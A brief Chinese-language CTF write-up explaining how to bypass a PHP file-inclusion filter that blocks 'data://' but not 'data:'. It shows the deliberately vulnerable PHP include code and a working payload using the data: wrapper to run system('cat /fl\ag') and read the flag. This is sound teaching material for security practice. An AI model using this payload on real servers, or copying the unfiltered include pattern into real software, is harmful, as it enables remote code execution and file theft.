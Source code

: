 ### data 伪协议 RCE 绕过双斜杠

话不多说，直接上题（青少年 CTF 练习平台）

![](https://pic1.imgdb.cn/item/683d81d058cb8da5c82526cb.png)

打开网页给出了源码

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

if(isset($_GET['file'])){
        $file = $_GET['file'];
}
// 假如我增加了过滤，你又该如何应对呢？
if(preg_match('/php:\/\/|file:\/\/|flag|http:\/\/|log|phar:\/\/|data:\/\//i', $file)){
        echo 'No No No !';
}
else{
        include $file;
}
```

![](https://pic1.imgdb.cn/item/683d81f258cb8da5c82526e6.png)

这里的正则只匹配了 `data://`，没有过滤整个 `data` 伪协议，所以我们去掉 `//` 即可绕过

```php
?file=data:text/plain,<?php system('cat /fl\ag');?>
```

![](https://pic1.imgdb.cn/item/683d82ad58cb8da5c8252740.png)